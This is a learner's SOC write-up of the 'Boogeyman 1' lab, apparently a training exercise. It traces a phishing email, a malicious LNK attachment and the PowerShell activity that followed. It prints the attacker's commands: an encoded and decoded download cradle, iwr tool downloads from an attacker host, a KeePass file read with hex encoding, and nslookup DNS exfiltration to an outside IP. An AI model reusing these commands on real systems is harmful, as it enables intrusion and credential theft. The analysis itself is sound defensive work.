





# Boogeyman 1 Investigation Notes

## 1. Case Overview

Boogeyman 1 is a SOC investigation involving a phishing-based compromise against a finance employee at Quick Logistics LLC.

The investigation begins with a suspicious invoice/payment-themed email sent to the victim. The email contained an encrypted ZIP attachment. After reconstructing and extracting the attachment, the file inside was identified as a Windows shortcut file.

Further analysis showed that the shortcut file was configured to launch PowerShell with hidden and encoded command-line arguments. The decoded PowerShell command attempted to download and execute remote content from an external URL.

Based on the current evidence, the phishing email and shortcut file appear to be the initial delivery and execution mechanism for the compromise.

---

## 2. Investigation Objectives

The objectives of this investigation are to:

- Identify the phishing sender and targeted victim.
- Analyze the phishing email headers and body.
- Reconstruct and inspect the malicious attachment.
- Analyze the extracted shortcut file.
- Decode the PowerShell payload.
- Review endpoint PowerShell logs.
- Identify attacker infrastructure, tools, files, and commands.
- Determine whether sensitive data was accessed or exfiltrated.
- Extract indicators of compromise.
- Build an attack timeline.
- Document findings in a SOC-style format.

## 3. Evidence Sources Reviewed

Evidence reviewed during Task 2:

- `dump.eml`
- `payload.txt`
- `Invoice.zip`
- `Invoice_20230103.lnk`
- `lnkparse` output
- Task 2 screenshots in `screenshots/`

## 4. Initial Access Analysis

### 4.1 Phishing Email Summary

The initial suspicious activity was a phishing email sent to the victim using an invoice/payment-themed lure.

The email subject was:

```text
Collection for Quick Logistics LLC - Jan 2023
```

### 4.2 Sender Information

The sender address identified in the email headers was:

```text
agriffin@bpakcaging.xyz
```

Relevant headers included:

```text
From: Arthur Griffin <agriffin@bpakcaging.xyz>
Reply-To: Arthur Griffin <agriffin@bpakcaging.xyz>
Sender: agriffin@bpakcaging.xyz
Return-Path: agriffin@bpakcaging.xyz
```

Screenshot reference:

```text
screenshots/01-email-sender-recipient.png
```

### Analyst Notes

The sender address appeared consistently across multiple headers, supporting that `agriffin@bpakcaging.xyz` was the sender address used in the phishing email.

## 5. Victim Identification

The targeted victim was identified from the `To:` header in the email.

```text
To: Julianne Westcott <julianne.westcott@hotmail.com>
```

The victim email address was:

```text
julianne.westcott@hotmail.com
```

### Analyst Notes

The victim was a finance employee at Quick Logistics LLC. The invoice/payment theme of the email was relevant to the victim's role, which likely increased the chance that the attachment would be opened.

### Why This Matters

Identifying the victim helps define the scope of the investigation. Since the phishing email targeted a finance employee, the attack appears designed to exploit normal business payment or invoice workflows.

***

## 6. Mail Relay and Delivery Infrastructure

The email headers indicated that third-party mail relay infrastructure was used.

The `DKIM-Signature` header showed:

```text
DKIM-Signature: v=1; a=rsa-sha256; d=elasticemail.com; s=api;
```

The `List-Unsubscribe` header referenced:

```text
bounces.elasticemail.net
```

### Analyst Notes

The third-party mail relay service identified was Elastic Email.

This does not mean Elastic Email itself was malicious. The evidence suggests that the attacker may have used or abused legitimate email delivery infrastructure to send the phishing email.

### Why This Matters

Attackers may use legitimate mail relay services to improve email deliverability, bypass some filtering, or make phishing messages appear more trustworthy.

***

## 7. Attachment Analysis

### 7.1 Attachment Metadata

The email contained a ZIP attachment.

The email attachment metadata showed:

```text
Content-Type: application/zip
Content-Disposition: attachment; filename="Invoice.zip"; size=908;
Content-Transfer-Encoding: base64
```

The attachment filename was:

```text
Invoice.zip
```

Screenshot reference:



### 7.2 Attachment Reconstruction

The Base64 content from the email was copied into a file named:

```text
payload.txt
```

The attachment was reconstructed using:

```bash
cat payload.txt | base64 -d > Invoice.zip
```

### 7.3 ZIP Password

The password was found in the email body:

```text
Invoice2023!
```

The email body stated:

```text
You may use this code to view the encrypted file: Invoice2023!
```

Screenshot reference:



### 7.4 ZIP Extraction

The ZIP archive was extracted using:

```bash
unzip Invoice.zip
```

The extracted file was:

```text
Invoice_20230103.lnk
```

Screenshot reference:



### Analyst Notes

The use of a password-protected ZIP attachment is suspicious because attackers commonly use encrypted archives to make automated attachment inspection more difficult.

The extracted file was a `.lnk` shortcut file, not a normal invoice document such as a PDF, Word document, or Excel spreadsheet.

### Why This Matters

This confirms that the email attachment was part of the attack chain. The ZIP file delivered a shortcut file that could execute commands when opened by the victim.

***

## 8. Shortcut File Analysis

The extracted shortcut file was analyzed using:

```bash
lnkparse Invoice_20230103.lnk
```

The shortcut file referenced PowerShell:

```text
..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

The command-line arguments were:

```powershell
-nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```

The shortcut also referenced an Excel icon path:

```text
C:\Users\Administrator\Desktop\excel.ico
```

### Analyst Notes

The shortcut file was configured to launch PowerShell instead of opening an invoice document.

The use of an Excel icon suggests that the shortcut may have been disguised to appear invoice- or spreadsheet-related.

The PowerShell arguments were suspicious:

* `-nop` runs PowerShell without loading the user profile.
* `-windowstyle hidden` hides the PowerShell window from the user.
* `-enc` executes a Base64-encoded command.

### Why This Matters

This finding confirms that the extracted `.lnk` file was malicious. The shortcut was designed to execute hidden and encoded PowerShell, which is commonly associated with attacker activity.

Screenshot reference:



***

## 9. PowerShell Payload Analysis

The encoded payload from the `-enc` argument was:

```text
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```

After decoding, the payload was:

```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

### Analyst Notes

The decoded command is a PowerShell download cradle.

The command uses:

```powershell
new-object net.webclient
```

to retrieve remote content from:

```text
http://files.bpakcaging.xyz/update
```

The command then uses:

```powershell
iex
```

to execute the downloaded content directly in PowerShell.

`iex` is short for `Invoke-Expression`. It executes a string as PowerShell code.

Screenshot reference:



### Why This Matters

This behavior indicates that the shortcut file was likely a first-stage payload. Its purpose was not to display an invoice, but to download and execute remote attacker-controlled code.

***

## 10. Confirmed Findings

### Finding 1: Phishing Email Delivered to Finance Employee

A phishing email was sent to Julianne Westcott using an invoice/payment-themed lure.

### Finding 2: Sender Address Used Suspicious Domain

The phishing email used the sender address:

```text
agriffin@bpakcaging.xyz
```

### Finding 3: Third-Party Mail Relay Infrastructure Was Used

Email headers referenced:

```text
elasticemail.com
bounces.elasticemail.net
```

This suggests that the attacker used or abused legitimate email relay infrastructure.

### Finding 4: Password-Protected ZIP Attachment Was Delivered

The phishing email contained an attachment named:

```text
Invoice.zip
```

The password was included in the email body:

```text
Invoice2023!
```

### Finding 5: ZIP Contained a Shortcut File

The ZIP archive contained:

```text
Invoice_20230103.lnk
```

This was suspicious because a shortcut file can execute commands.

### Finding 6: Shortcut File Launched Hidden Encoded PowerShell

The shortcut launched PowerShell with:

```powershell
-nop -windowstyle hidden -enc
```

### Finding 7: PowerShell Attempted to Download and Execute Remote Content

The decoded PowerShell command attempted to download and execute content from:

```text
http://files.bpakcaging.xyz/update
```

***

## 11. Task 2 Attack Chain

```text
1. Phishing email sent from agriffin@bpakcaging.xyz.
2. Victim was Julianne Westcott.
3. Email used invoice/payment-themed lure.
4. Email used third-party mail relay infrastructure.
5. Email contained Base64-encoded ZIP attachment named Invoice.zip.
6. ZIP password was provided in the email body: Invoice2023!.
7. ZIP archive contained Invoice_20230103.lnk.
8. LNK file was disguised as an invoice/Excel-related file.
9. LNK launched PowerShell.
10. PowerShell used hidden and encoded execution arguments.
11. Decoded PowerShell attempted to download and execute remote content from http://files.bpakcaging.xyz/update.
```

***

## 12. Task 2 Questions Carried Into Endpoint Analysis

The following questions were identified after Task 2 and investigated during Task 3:

- Did PowerShell activity continue on the endpoint?
- Were additional attacker domains observed?
- Was the remote payload activity followed by tool download or execution?
- Were additional IOCs identified from endpoint logs?

***

## 13. Candidate Timeline Events

These events should be added to `timeline.md` later:

```text
1. Phishing email sent to Julianne Westcott.
2. Email received with invoice/payment lure.
3. Email attachment identified as Invoice.zip.
4. ZIP password identified in email body.
5. Base64 attachment reconstructed into Invoice.zip.
6. ZIP archive extracted.
7. Invoice_20230103.lnk identified inside the ZIP archive.
8. LNK file analyzed with lnkparse.
9. LNK file found to execute PowerShell.
10. PowerShell command found using -nop, hidden window, and encoded payload.
11. Encoded payload decoded.
12. Payload identified as download cradle for http://files.bpakcaging.xyz/update.
```

***

## 14. Personal Learning Notes

### Things I understood better from this stage

* How to inspect an `.eml` file manually.
* How to identify sender and recipient information from email headers.
* How to inspect folded email headers.
* How Base64 email attachments can be reconstructed.
* Why password-protected ZIP attachments are suspicious.
* Why `.lnk` files are dangerous in phishing attacks.
* How `lnkparse` helps inspect shortcut file behavior.
* Why hidden and encoded PowerShell is suspicious.
* How a PowerShell download cradle works.

### Things I need to review more

* How DKIM headers work.
* How to analyze email authentication results.
* How to safely decode PowerShell payloads.
* How to identify whether a remote payload successfully executed.
* How to correlate email evidence with endpoint logs.

---

# Task 3 — Endpoint Security Analysis

## 15. Task 3 Summary

Task 3 focused on endpoint activity after the malicious `.lnk` file executed PowerShell.

From Task 2, the decoded shortcut payload showed that PowerShell attempted to download and execute content from:

```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

PowerShell log analysis showed additional attacker activity on the compromised workstation:

```text
QL-WKSTN-5693
```

The attacker used PowerShell to interact with suspicious infrastructure, download tools, perform host/user enumeration, inspect Microsoft Sticky Notes data, locate a KeePass database file, encode that file as hex, and attempt DNS-based exfiltration using `nslookup`.

***

## 16. Evidence Sources Reviewed

Evidence reviewed during Task 3:

* `powershell.json`
* PowerShell log entries
* `jq` query output
* `grep` query output
* Terminal screenshots
* Decoded PowerShell activity from Task 2

***

## 17. Finding 1: Attacker Domains Observed in PowerShell Logs

### Evidence

I searched the PowerShell logs for attacker-related domains using:

```bash
cat powershell.json | grep -ioE '[a-zA-Z0-9._-]+\.bpakcaging\.xyz' | sort -u
```

The output showed:

```text
cdn.bpakcaging.xyz
files.bpakcaging.xyz
```

### Screenshot References

```text
screenshots/task3-q1-attacker-domains.png
screenshots/task3-q1-domain-log-context.png
```

### Analyst Notes

The domain `files.bpakcaging.xyz` was previously identified in Task 2 from the decoded LNK payload.

Task 3 expanded the known attacker infrastructure by identifying:

```text
cdn.bpakcaging.xyz
```

Both domains appear related to the same suspicious `bpakcaging.xyz` infrastructure used during the attack.

### Why This Matters

This connects the phishing attachment from Task 2 to later endpoint activity. These domains should be treated as high-priority indicators for hunting, blocking, and network monitoring.

***

## 18. Finding 2: Seatbelt Enumeration Tool Downloaded and Executed

### Evidence

I searched for Seatbelt activity using:

```bash
cat powershell.json | jq -s 'sort_by(.Timestamp) | .[] | select(tostring | test("seatbelt"; "i"))'
```

The logs showed:

```text
2023-01-13 17:12:17.683688Z
iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1');pwd
```

Later activity showed:

```text
2023-01-13 17:18:05.437844Z
Seatbelt.exe -group=user;pwd
```

### Screenshot Reference

```text
screenshots/task3-q2-seatbelt-download-and-execution.png
```

### Analyst Notes

The attacker loaded or downloaded `Invoke-Seatbelt.ps1` and later executed:

```powershell
Seatbelt.exe -group=user
```

Seatbelt is commonly used for Windows host enumeration. The `-group=user` argument suggests the attacker was collecting user-related information from the compromised workstation.

### Why This Matters

This indicates post-compromise discovery activity. After achieving PowerShell execution, the attacker began enumerating the victim environment.

***

## 19. Finding 3: Sticky Notes Database Accessed Using sq3.exe

### Evidence

I searched for `sq3`, `sqlite`, `StickyNotes`, and `plum` using:

```bash
cat powershell.json | jq -s 'sort_by(.Timestamp) | .[] | select(tostring | test("sq3|sqlite|StickyNotes|plum"; "i"))'
```

The logs showed the attacker browsing the Sticky Notes directory:

```text
ls AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe;pwd
```

Then:

```text
ls AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState;pwd
```

The attacker downloaded `sq3.exe`:

```powershell
iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe;pwd
```

The attacker then used `sq3.exe` to query the Sticky Notes database:

```powershell
.\\Music\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite "SELECT * from NOTE limit 100";pwd
```

### Screenshot Reference

```text
screenshots/task3-q3-sq3-sticky-notes-plum-sqlite.png
```

### Analyst Notes

The attacker used `sq3.exe`, likely a SQLite utility, to query:

```text
plum.sqlite
```

The full path was:

```text
C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
```

This file belongs to:

```text
Microsoft Sticky Notes
```

### Why This Matters

This suggests the attacker was searching user application data for sensitive information such as passwords, credential hints, notes, or recovery information.

***

## 20. Finding 4: KeePass Database File Targeted for Exfiltration

### Evidence

I searched for `.kdbx`, protected file references, and exfiltration-related activity using:

```bash
cat powershell.json | jq -s 'sort_by(.Timestamp) | .[] | select(tostring | test("kdbx|protected|exfil|nslookup|Resolve-DnsName"; "i"))'
```

The logs showed the attacker checking for:

```powershell
ls C:\\Users\\j.westcott\\Documents\\protected_data.kdbx;pwd
```

The attacker later prepared to read the file:

```powershell
$file='C:\\Users\\j.westcott\\Documents\\protected_data.kdbx'; $destination = "167.71.211.113"; $bytes = [System.IO.File]::ReadAllBytes($file);;pwd
```

### Screenshot Reference

```text
screenshots/task3-q5-protected-data-kdbx-exfil-file.png
```

### Analyst Notes

The targeted file was:

```text
protected_data.kdbx
```

The full path was:

```text
C:\Users\j.westcott\Documents\protected_data.kdbx
```

The `.kdbx` extension is associated with KeePass password database files.

### Why This Matters

This is a high-impact finding. A KeePass database may contain stored credentials, secrets, secure notes, and other sensitive data. Targeting this file suggests the attacker was attempting credential theft or secret collection.

***

## 21. Finding 5: Hex Encoding Used During Exfiltration Attempt

### Evidence

I searched for encoding and exfiltration-related PowerShell commands using:

```bash
cat powershell.json | jq -s 'sort_by(.Timestamp) | .[] | select(tostring | test("hex|ToString|ReadAllBytes|BitConverter|nslookup"; "i"))'
```

The logs showed the file being read as bytes:

```powershell
$bytes = [System.IO.File]::ReadAllBytes($file)
```

The logs also showed the byte content being converted into hexadecimal format, for example:

```powershell
[System.BitConverter]::ToString($bytes) -replace '-', ''
```

The activity also referenced exfiltration behavior using `nslookup`.

### Screenshot References

```text
screenshots/task3-q7-hex-encoding-focused.png
screenshots/task3-q8-nslookup-exfiltration.png
screenshots/task3-exfil-nslookup-hex-dns.png
```

### Analyst Notes

The attacker attempted to encode the contents of the targeted file as hex before exfiltration.

The use of `nslookup` suggests DNS-based exfiltration behavior. The destination IP observed was:

```text
167.71.211.113
```

### Why This Matters

DNS-based exfiltration can bypass some traditional monitoring if DNS traffic is not inspected closely. Encoding file contents as hex allows binary data to be represented in a format that can be transmitted through text-based mechanisms such as DNS queries.

***

## 22. Finding 6: DNS-Based Exfiltration Attempt Using nslookup

### Evidence

The logs and screenshots indicate that `nslookup` was used as part of the exfiltration attempt toward the attacker-controlled destination. The PowerShell activity contained nslookup commands similar to the following pattern:

```powershell
nslookup -type=txt 504B0304...bpakcaging.xyz 167.71.211.113
```

Note: Hex value truncated for readability (example shows leading bytes `504B0304...`). If available, replace with the actual truncated fragment observed in logs or screenshots (`screenshots/task3-exfil-nslookup-hex-dns.png`).

### Screenshot Reference

```text
screenshots/task3-exfil-nslookup-hex-dns.png
```

### Analyst Notes

The attacker used `nslookup` to transmit encoded file content through DNS queries toward `167.71.211.113`.

### Why This Matters

This behavior is consistent with DNS-based exfiltration, where encoded data is placed into DNS queries to move information out of the environment.

***

## 23. Task 3 Confirmed Findings

### Finding 1: Additional Attacker Infrastructure Identified

The domains identified were:

```text
cdn.bpakcaging.xyz
files.bpakcaging.xyz
```

### Finding 2: Compromised Host Identified

The compromised workstation was:

```text
QL-WKSTN-5693
```

### Finding 3: Enumeration Activity Observed

The attacker used Seatbelt for host/user enumeration:

```text
Seatbelt.exe -group=user
```

### Finding 4: SQLite Utility Downloaded

The attacker downloaded:

```text
sq3.exe
```

from:

```text
http://files.bpakcaging.xyz/sq3.exe
```

### Finding 5: Sticky Notes Database Accessed

The attacker queried:

```text
C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
```

### Finding 6: KeePass Database Targeted

The attacker targeted:

```text
C:\Users\j.westcott\Documents\protected_data.kdbx
```

### Finding 7: DNS-Based Exfiltration Attempt Observed

The attacker attempted exfiltration using:

```text
nslookup
```

The destination IP was:

```text
167.71.211.113
```

***

## 24. New IOCs and Artifacts from Task 3

### Domains

```text
cdn.bpakcaging.xyz
files.bpakcaging.xyz
```

### URLs

```text
http://files.bpakcaging.xyz/sq3.exe
```

### IP Addresses

```text
167.71.211.113
```

### Hostnames

```text
QL-WKSTN-5693
```

### Usernames

```text
j.westcott
```

### Files and Paths

```text
sq3.exe
plum.sqlite
protected_data.kdbx
C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
C:\Users\j.westcott\Documents\protected_data.kdbx
```

### Commands and Tools

```text
Seatbelt.exe -group=user
iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe
nslookup
[System.IO.File]::ReadAllBytes($file)
[System.BitConverter]::ToString($bytes) -replace '-', ''
```

***

## 25. Task 3 Timeline Events

Candidate events to add to `timeline.md`:

```text
1. PowerShell activity observed on workstation QL-WKSTN-5693.
2. Attacker infrastructure identified in PowerShell logs: cdn.bpakcaging.xyz and files.bpakcaging.xyz.
3. Attacker loaded or downloaded Invoke-Seatbelt.ps1.
4. Attacker executed Seatbelt.exe with -group=user.
5. Attacker browsed Microsoft Sticky Notes application data.
6. Attacker downloaded sq3.exe from files.bpakcaging.xyz.
7. Attacker used sq3.exe to query plum.sqlite.
8. Attacker located protected_data.kdbx in the victim user's Documents directory.
9. Attacker read protected_data.kdbx as bytes.
10. Attacker converted file content into hex format.
11. Attacker attempted DNS-based exfiltration using nslookup.
12. Exfiltration destination observed: 167.71.211.113.
```

---

## 26. Open Questions After Task 3

Questions to answer in the next investigation stage:

* Was the exfiltration attempt successful?
* Were DNS logs available to confirm full data transfer?
* Did the attacker create or execute additional files after `sq3.exe`?
* Were any credentials recovered or exposed from Sticky Notes or KeePass?
* Was the KeePass master password compromised?
* Were any persistence mechanisms created?
* Were additional hosts contacted or affected?